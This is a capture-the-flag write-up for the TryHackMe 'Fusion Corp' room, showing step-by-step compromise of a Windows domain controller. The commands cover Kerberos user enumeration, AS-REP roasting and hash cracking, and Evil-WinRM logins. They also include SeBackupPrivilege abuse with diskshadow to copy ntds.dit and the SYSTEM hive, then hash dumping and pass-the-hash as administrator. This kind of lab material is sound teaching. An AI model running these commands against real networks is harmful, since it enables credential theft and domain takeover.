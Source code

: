 ```yaml
---
description: https://tryhackme.com/room/fusioncorp
---
```


# Fusion Corp

## Nmap

```
sudo nmap 10.10.75.130 -sS -sV -p-

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-06-20 13:33:25Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: fusion.corp0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fusion.corp0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49690/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: FUSION-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Starting off I attempted basic `SMB` enumeration and was unable to enumerate any meaningful information. From here I moved to `LDAP` and used the `Nmap` script shown below to pull domain information.

```bash
nmap -n -sV --script "ldap* and not brute" <IP>
```

From this we ascertain the domain name is 'Fusion.Corp'. From this we can start enumerating Kerbeos.

**Kerberos**

**Install Kerbrute:** [**https://github.com/ropnop/kerbrute**](https://github.com/ropnop/kerbrute)

```
./kerbrute userenum /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -d fusion.corp --dc 10.10.7.24 -v | grep 'VALID USERNAME:'
```

![](<../../../.gitbook/assets/image (1765) (1).png>)

Storing the discovered users in a file called 'asrep-hashes'. I then run GetNPUsers from Impacket against both the discovered usernames in order to retrieve Kerberos hashes.

```
python2 GetNPUsers.py <Domain>/ -usersfile <File> -format hashcat -outputfile <File>
```

![](<../../../.gitbook/assets/image (1766).png>)

Viewing the contents of asrep-hashes we see we have a hash for the user lparker.

![](<../../../.gitbook/assets/image (1767).png>)

Running this against Hashcat shows we soon crack the password.

```
hashcat -m 18200 -a 0 asrep-hashes /usr/share/wordlists/rockyou.txt 
```

![](<../../../.gitbook/assets/png1 (1).png>)

We are then able to utilize the credentials against port 5985 with Evil-WinRM.

```
evil-winrm -i 10.10.22.38 -u lparker -p '<Password>'
```

![](../../../.gitbook/assets/Capture\_1.png)

After grabbing the user flag on the Desktop I started working through basic enumeration. First checking local user accounts we see some interesting information for the user jmurphy.

```
net user jmurphy
```

![](../../../.gitbook/assets/Capture\_2.png)

We are then able to login with Evil-WinRM using the new credentials.

![](../../../.gitbook/assets/Capture\_3.png)

Again, the user flag can be grabbed from the Desktop. From here and as per the above image we see we have the privilege 'SeBackupPrivilege'.

This privilege grants us the ability to create backups of files on the system. Knowing this a high value file would be the ntds.dit file which is a database of hashes for domain objects / users. As the ntds.dit file is in constant use we will be unable to create a backup using normal methods as the system will lock the file.

What we can do instead is create a Distributed Shell File (DSH). This file will contain the appropriate commands for us to run the diskshadow utility against the C: drive and ultimately the ntds.dit file.

First created a file called `viper.dsh` on the attacking machine. Then insert the following contents:

```
set context persistent nowriters
add volume c: alias viper
create
expose %viper% x:
```

Once completed use the command `unix2dos` to convert the file to DOS format.

```
unix2dos viper.dsh
```

Then on the target system create a directory called 'temp' in `c:\temp.` After this upload the `viper.dsh` file.

![](<../../../.gitbook/assets/image (1772).png>)

From here run the following commands:

```
diskshadow /s viper.dsh
```

![](<../../../.gitbook/assets/image (1773).png>)

```
robocopy /b x:\windows\ntds . ntds.dit
```

![](<../../../.gitbook/assets/image (1774).png>)

From here we need to extract the SYSTEM hive which will be required for extracting the hashes with Impacket later.

```
reg save hklm\system c:\Temp\system
```

![](<../../../.gitbook/assets/image (1775).png>)

From here we can use the download command to download the ntds.dit and system hive file.

```
download ntds.dit
download system
```

![](<../../../.gitbook/assets/image (1776).png>)

Back on the attacking machine use the following command with Impacket to extract the hashes from ntds.dit.

```
python2 secretsdump.py -ntds ntds.dit -system system local
```

![](../../../.gitbook/assets/Capture\_4.png)

From here we have the Administrator hash which can be used to login to the target system with Evil-WinRM.

```
evil-winrm -i <IP> -u administrator -H '<NT-Hash>'
```

![](../../../.gitbook/assets/Capture\_5.png)

We are now Administrator on the Domain Controller and can grab the final flag from the Desktop.
